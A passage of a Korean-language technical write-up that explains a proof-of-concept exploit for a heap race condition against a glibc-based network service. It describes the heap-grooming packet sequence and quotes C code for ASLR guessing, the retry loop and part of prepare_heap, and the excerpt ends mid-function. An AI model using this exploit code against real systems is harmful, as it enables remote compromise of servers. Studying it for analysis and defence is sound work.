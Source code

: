 PoC는 앞서 알아본 다음과 같은 순서로 패킷을 전송합니다.

- a : `tcache` 크기의 청크를 `malloc`하고 `free`하기 위한 패킷
- b : 다양한 크기(`~8KB`, `320B hole`)의 청크를 `malloc`하고 `free`하여 27개의 `large hole`, `small hole` 쌍을 만들기 위한 패킷
- c : 이미 `free`된 청크들이 익스플로잇에서 조작된 값을 사용할 수 있게 미리 값들을 세팅해두는 패킷
	- `remainder`의 크기를 크게 만들 가짜 헤더를 중간에 기록
	- `glibc`의 보안 검사를 통과하기 위한 `footer`를 `small hole` 끝 부분에 기록
	- `fake vtable`과 `_codecvt` 포인터를 `small hole`에 기록
- d : 앞서 `free`한 청크들이 `unsorted bin`에서 각각의 `large bin`과 `small bin`에 배치될 수 있도록 하는 패킷
- e : 27개의 쌍을 이용해 레이스 컨디션을 수행하기 위한 패킷(앞서 알아본 힙 레이아웃 조작을 위한 시퀀스 수행 : `malloc(~4KB)`, `malloc(304)`, `malloc(~4KB), malloc(304))`

PoC에서 역시 `glibc`를 다음과 같은 두 개의 주소중 하나라고 가정합니다.

```c
// Possible glibc base addresses (for ASLR bypass)
uint64_t GLIBC_BASES[] = { 0xb7200000, 0xb7400000 };
int NUM_GLIBC_BASES = sizeof (GLIBC_BASES) / sizeof (GLIBC_BASES[0]);
```

`main` 함수의 핵심적인 부분을 살펴봅시다.

```c
int
main (int argc, char *argv[])
{
  ...
          prepare_heap (sock);
          time_final_packet (sock, &parsing_time);

          if (attempt_race_condition (sock, parsing_time, glibc_base))
            {
              printf ("Possible exploitation success on attempt %d with glibc "
                      "base 0x%lx!\n",
                      attempt, glibc_base);
              success = 1;
              break;
            }
}
```

위에 나타난 함수들 중 `prepare_heap` 함수에서 a~d의 역할을 하는 패킷들이 전송됩니다.
```c
void
prepare_heap (int sock)
{
  // Packet a: Allocate and free tcache chunks
  for (int i = 0; i < 10; i++)
    {
      unsigned char tcache_chunk[64];
      memset (tcache_chunk, 'A', sizeof (tcache_chunk));
      send_packet (sock, 5, tcache_chunk, sizeof (tcache_chunk));
      // These will be freed by the server, populating tcache
    }

  // Packet b: Create 27 pairs of large (~8KB) and small (320B) holes
  for (int i = 0; i < 27; i++)
    {
      // Allocate large chunk (~8KB)
      unsigned char large_hole[8192];
      memset (large_hole, 'B', sizeof (large_hole));
      send_packet (sock, 5, large_hole, sizeof (large_hole));

      // Allocate small chunk (320B)
      unsigned char small_hole[320];
      memset (small_hole, 'C', sizeof (small_hole));
```